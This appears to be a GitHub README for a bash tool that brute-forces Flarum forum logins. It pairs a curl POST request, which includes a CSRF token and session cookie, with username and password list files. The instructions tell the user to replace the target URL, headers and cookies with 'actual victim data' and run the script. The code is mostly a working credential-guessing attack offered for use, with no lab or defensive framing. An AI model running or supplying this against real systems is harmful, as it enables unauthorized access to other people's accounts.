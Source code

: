 # Overview
Brute force using curl for user/passford fields 

<img src="https://github.com/Alexandersfg4/pictures/blob/master/Screenshot%202021-02-07%20at%2015.03.01.png" height="500" width="575">


## Getting started
1. Change url/headers/X-CSRF-Token/cookies to actual victim data
```
Request (){
  5 curl -o /dev/null -s -w "%{http_code}\n" -X POST -H "Content-Type: applicat    ion/json" \
  6         -H "Accept: */*" \
  7         -H "Accept-Encoding: gzip, deflate" \
  8         -H "Accept-Language: en-us" \
  9         -H "Origin: http://172.16.4.3:8080" \
 10         -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) App    leWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15" \
 11         -H "Connection: keep-alive" \
 12         -H "Referer: http://172.16.4.3:8080/" \
 13         -H "X-CSRF-Token: qheH4dzPl0nSkjPlkIZtm3pIfX4pgjaAxVlWFI15" \      
 14         -H "Cookie: flarum_session=C9J70piUW3WDKAee3sf619I744n9ImW3ecPv3Lai    " \
 15         -d "{\"identification\":\"$user_in_file\",\"password\":\"$password_    in_file\",\"remember\":false}" \
 16         http://172.16.4.3:8080/login
 17 }
```
1. Add data to passwords.txt and usernames.txt files
1. And than run the script ``` ./bruteforce.sh ```
